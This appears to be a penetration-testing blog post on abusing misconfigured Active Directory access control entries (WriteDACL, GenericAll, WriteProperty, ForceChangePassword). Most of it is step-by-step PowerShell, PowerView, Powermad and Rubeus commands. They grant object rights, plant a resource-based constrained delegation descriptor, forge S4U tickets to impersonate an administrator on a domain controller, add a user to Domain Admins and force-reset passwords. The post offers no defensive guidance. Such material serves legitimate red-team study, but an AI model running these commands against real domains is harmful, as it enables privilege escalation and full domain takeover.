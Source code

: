 ```yaml
---
title: 'Abusing AD Access Controls'
date: '2019-01-15'
layout: post
tag: [AD, Access Controls]
excerpt: >-
  Abusing Windows Access Control List and Access Control Entries
description: >-
  Abusing Windows Access Control List and Access Control Entries
image: '/images/posts/abusing-ace/abusing-acl.png'
thumb_image: '/images/posts/abusing-ace/abusing-acl.png'
---
```


# Introduction

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). 

Access Control List entries describe the allowed and denied permissions for a principal in Active Directory against a securable object (user, group, computer, container, organization unit (OU), GPO etc..) DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access to an object. When we have misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain. 

An example of ACEs for the “Domain Admins” securable object can be seen here:

![](/images/posts/abusing-ace/abusing-active-directory-aclace.png)

Active Directory offers a variety of permission types to set up an ACE.  
From an attacker’s point of view, the following permission types are particularly interesting:

- **WriteDACL** – modify the object’s ACEs and give an attacker complete control right over the object 
- **GenericAll** – full rights to the object (add users to a group or reset user’s password) 
- **GenericWrite** – update object’s attributes (i.e. logon script) 
- **WriteOwner** – change object owner to attacker controlled user to take over the object 
- **AllExtendedRights** – the ability to add a user to a group or reset a password 
- **ForceChangePassword** – the ability to change the user’s password 

## WriteDacl

The writeDACL permissions allow an identity to fully control rights over the designated object. 
This means they can modify access control lists (ACL) to gain higher privileges, like becoming a domain administrator or gaining specific user rights.

It’s important to be aware of the risks, especially if someone can modify the ACL of an Active Directory (AD) object and assign permissions that allow them to read and write specific attributes, such as changing an account name or resetting a password.

Abusing writeDACL to a computer object can be used to gain the GenericAll privilege. 
It’s crucial to authenticate to the Domain Controller when running a process as a user without writeDACL rights.

Additionally, using the Powerview module Add-DomainObjectAcl requires creating a PSCredential object first.

```powershell
SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('first.local\\admin.user', $SecPassword) 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity FIRST-DC  -PrincipalIdentity writedacldc.user -Rights All
```

![](/images/posts/abusing-ace/Pasted-image-20231211174126.png)

Once we have granted this privilege, we can execute a resource based constrained delegation attack. 
First, if an attacker does not control an account with an SPN set, 
Powermad can be used to add a new attacker-controlled computer account: 

```powershell
New-MachineAccount -MachineAccount attacker system -Password $(ConvertTo-SecureString 'Password@1' -AsPlainText -Force)
```

![](/images/posts/abusing-ace/Pasted-image-20231211174134.png)

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer attacker system -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form 

```powershell
Rubeus.exe hash /password:Password@1
```

![](/images/posts/abusing-ace/rubeus-exe-hash.png)

And the _s4u_ module to get a service ticket for the service name we want to pretend to be an admin for. 
This ticket is injected into memory and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt
```

![](/images/posts/abusing-ace/rubeus-exe-hash-1.png)

![](/images/posts/abusing-ace/rubeus-exe-hash_.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u.png)

## GenericAll

The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password).
 _The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object._ 

Example: If the attacker has GenericAll over any target, then he doesn’t have to know the target user’s password. 
He can execute a force password reset using **Set-DomainUserPassword** to a known value.

Using powerview, we will check if our user has GenericAll rights on the Domain Controller (First-DC) 

```powershell
Get-ObjectAcl -SamAccountName first-dc | ?{$_.ActiveDirectoryRights -eq "GenericAll"} 
```

![](/images/posts/abusing-ace/get-objectacl-samaccountname-first-dc.png)

We can see that our user has the GenericAllrights, effectively enabling the user to take over the DC: 
Generic write to a computer object can be used to perform a resource based constrained delegation attack. 
We will use Powermad to add a new attacker-controlled computer account 

```powershell
New-MachineAccount -MachineAccount genallcomp -Password $(ConvertTo-SecureString 'Password!' -AsPlainText -Force)
```

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer genallcomp -Properties objectsid | Select -Expand objectsid 
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 

Rubeus.exe hash /password:Password!
```

![](/images/posts/abusing-ace/rubeus-exe-hash-password.png)

Finally, we can use Rubeus’ _s4u_ module to get a service ticket for the service name we want to “pretend” to be “admin” for. 
This ticket is injected in memory, and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:genallcomp$ /rc4:FBDCD5041C96DDBD82224270B57F11FC /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt 
```

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp_.png)

![](/images/posts/abusing-ace/genericwrite.png)


GenericAll / GenericWrite / Write on Computer 

If you have rights you can perform a resource based constrained delegation 

## WriteProperty (Self-Membership)

If our user has WriteProperty right on All objects for the Domain Admin group: 

We can again add ourselves to the Domain Admins group and escalate privileges: 

```powershell
net user gpowrite.user /domain; Add-NetGroupUser -UserName gpowrite.user -GroupName "domain admins" -Domain "first.local"; net user gpowrite.user /domain 
```

![](/images/posts/abusing-ace/gpowrite-user.png)


## ForceChangePassword

If we have ExtendedRight on User-Force-Change-Password object type, we can reset the user’s password without knowing their current password: 

Using PowerView: 

```powershell
Set-DomainUserPassword -Identity gpowrite.user -Verbose 
```

![](/images/posts/abusing-ace/forcechangepassword.png)
